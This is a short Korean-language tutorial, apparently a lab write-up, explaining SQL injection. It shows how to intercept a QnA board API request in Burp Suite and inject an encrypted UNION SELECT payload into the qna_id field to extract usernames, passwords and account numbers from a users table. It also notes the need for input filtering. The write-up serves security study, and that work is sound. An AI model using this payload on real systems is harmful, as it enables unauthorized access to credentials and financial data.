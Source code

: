 # SQL 주입 공격
---
## 1. SQL 주입 공격이란?
---
+ 사용자의 입력 값으로 웹 사이트 SQL 쿼리가 완성되는 약점을 이용하며, 입력 값을 변조하여 비정상적인 SQL 쿼리를 조합하거나 실행하는 공격이다. 
+ 해당 취약점이 존재하는 경우 비정상적인 SQL 쿼리로 DBMS 및 
데이터(Data)를 열람하거나 조작 가능하므로 사용자의 입력 값에 대한 필터링을 구현하여야 한다.

---
## 2. 공격방법
---
Burp suite로 QnA 게시판(/api/qna/view) 요청을 가로챈다.

![버프로잡은화면](https://user-images.githubusercontent.com/115529661/200977942-95309400-1560-4f96-9c47-bdd4911a10d4.jpg)

요청 body의 enc_data를 복호화하면 qna_id가 전달되는 것 확인할 수 있다.

![qnaid확인](https://user-images.githubusercontent.com/115529661/200978257-ce5eb74c-c1a8-416d-aac0-81d12b22f093.jpg)

qna_id에 넣을 SQL 쿼리문이다.
```js
{"qna_id":"false UNION select username as title, password as content, account_number as write_at from users where true LIMIT 1,2; -- "}
```
주입할 쿼리문을 포함한 JSON을 암호화한다.
```js
encrypt('{"qna_id":"false UNION select username as title, password as content, account_number as write_at from users where true LIMIT 1,2; -- "}');
```
![쿼리암호화](https://user-images.githubusercontent.com/115529661/200978302-b40fe385-5de5-4bf0-a091-79cb40fed626.png)

앞에서 암호화한 데이터를 요청에 넣어 보냈다.

![암호화한 데이터 송신](https://user-images.githubusercontent.com/115529661/200978464-1bf4a821-aa09-4e24-a3c5-5426fad26200.jpg)

응답값을 복호화해서 쿼리문 결과 확인할 수 있다.

![결과확인](https://user-images.githubusercontent.com/115529661/200978704-d8c4e842-44a3-4d0f-a559-07d533e9b402.jpg)

**암호화,복호화 확인 넣어야함

---